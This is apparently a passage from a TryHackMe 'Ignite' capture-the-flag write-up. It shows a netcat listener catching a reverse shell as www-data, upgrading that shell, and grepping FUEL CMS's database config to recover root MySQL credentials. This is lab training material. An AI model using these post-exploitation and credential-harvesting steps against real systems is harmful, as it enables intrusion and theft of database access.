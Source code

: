 ```bash
joshua@kaligra:~/Documents/thm/ignite$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.8.100.14] from (UNKNOWN) [10.10.14.144] 50894
Linux ubuntu 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 11:55:06 up 27 min,  0 users,  load average: 1.07, 1.03, 0.85
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$

```

```bash
www-data@ubuntu:/$ ^Z
[1]+  Stopped                 nc -nvlp 4444
joshua@kaligra:~/Documents/thm/ignite$ stty raw -echo
joshua@kaligra:~/Documents/thm/ignite$
nc -nvlp 4444

www-data@ubuntu:/$
www-data@ubuntu:/$
www-data@ubuntu:/$

```

## privesc

### mysql

https://github.com/daylightstudio/FUEL-CMS/blob/master/fuel/application/config/database.php

```bash
www-data@ubuntu:/var/www/html$ grep -A10 'dsn' fuel/application/config/databas>
|       ['dsn']      The full DSN string describe a connection to the database.
|       ['hostname'] The hostname of your database server.
|       ['username'] The username used to connect to the database
|       ['password'] The password used to connect to the database
|       ['database'] The name of the database you want to connect to
|       ['dbdriver'] The database driver. e.g.: mysqli.
|                       Currently supported:
|                                cubrid, ibase, mssql, mysql, mysqli, oci8,
|                                odbc, pdo, postgre, sqlite, sqlite3, sqlsrv
|       ['dbprefix'] You can add an optional prefix, which will be added
|                                to the table name when using the  Query Builder class
--
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'XXXXXXX',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
        'dbprefix' => '',
        'pconnect' => FALSE,
        'db_debug' => (ENVIRONMENT !== 'production'),
        'cache_on' => FALSE,
        'cachedir' => '',
```
